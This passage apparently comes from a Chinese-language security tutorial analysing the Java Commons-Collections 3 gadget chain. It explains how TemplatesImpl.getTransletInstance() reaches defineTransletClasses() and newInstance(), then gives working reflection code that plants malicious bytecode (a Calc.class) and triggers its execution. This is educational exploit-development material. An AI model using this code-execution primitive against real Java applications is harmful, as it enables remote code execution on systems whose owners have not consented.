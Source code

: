 ###  4. TemplatesImpl.getTransletInstance()

现在回到正题，因为 defineTransletClasses() 方法的作用域是 **private**，所以我们看一看谁调用了这个方法。

审计发现同类的 `getTransletInstance()` 方法（451 行）调用了 defineTransletClasses() 方法，并且这里（455 行）有一 个 `newInstance()` 实例化的过程。

> 注意到为了进入 451 行，需要 _name 不为空且 _class 为空

源码如下图：

![](https://i.imgur.com/uZNuyPR.png)


**小练习**
由于这一步 455 行的 newInstance()，所以现在可以命令执行了，请写出漏洞 demo。

思路：

阅读源码就可以发现，若要执行到 `defindTransletClasses()` 方法，那么 `_name` 不可为空且 `_class` 要为空。

`_name` 就是一个普通的字符串，我们可以通过反射随意修改。

`_class` 初始为空，之后调用defineTransletClasses() 方法加载我们的恶意类。


**我的代码**
```java
// 1. 定义恶意字节码数组并装入 data1 中
        byte [] data0 = Files.readAllBytes(Paths.get("D:\\IDEAProject\\Reflect\\target\\classes\\security\\java\\cc3\\Calc.class"));
        byte [][] data1 = {data0};

        // 2. 实例化 TemplatesImpl，并反射修改其 _bytecodes 为 data1

        TemplatesImpl templates = new TemplatesImpl();
        Class c1 = templates.getClass();

        Field field = c1.getDeclaredField("_bytecodes");
        field.setAccessible(true);

        field.set(templates,data1);

        Field field1 = c1.getDeclaredField("_tfactory");
        field1.setAccessible(true);
        field1.set(templates,new TransformerFactoryImpl());


        // 3. 反射修改 __name,__class 默认是 null。

        Field field2 = c1.getDeclaredField("_name");
        field2.setAccessible(true);
        field2.set(templates,"mirror4s");


        // 3. 反射调用 defineTransletClasses

        Method method = c1.getDeclaredMethod("getTransletInstance");
        method.setAccessible(true);
        method.invoke(templates,null);
```
